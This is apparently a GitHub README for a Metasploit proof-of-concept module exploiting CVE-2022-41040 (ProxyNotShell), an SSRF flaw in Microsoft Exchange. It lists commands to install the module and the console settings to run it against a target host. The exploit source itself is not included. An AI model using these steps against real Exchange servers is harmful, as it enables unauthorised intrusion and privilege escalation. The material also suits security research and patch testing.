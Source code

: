 # CVE-2022-41040-metasploit-ProxyNotShell
the metasploit script(POC) about CVE-2022-41040. Microsoft Exchange are vulnerable to a server-side request forgery (SSRF) attack. An authenticated attacker can use the vulnerability to elevate privileges.

# preparation POC
```cmd
git clone https://github.com/trhacknon/CVE-2022-41040-metasploit-ProxyNotShell
cd CVE-2022-41040-metasploit-ProxyNotShell
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp microsoft_exchange_server_proxynotshell_ssrf.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/microsoft_exchange_server_proxynotshell_ssrf.py
msfconsole
```

# POC usage
```text
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
exploit
```

# result
![poc](poc.png)

# reference
- https://www.kb.cert.org/vuls/id/915563
- https://github.com/Vulnmachines/proxynotshell-checker
- https://github.com/kljunowsky/CVE-2022-41040-POC
- https://github.com/zan8in/afrog
- https://github.com/trhacknon/Exploit
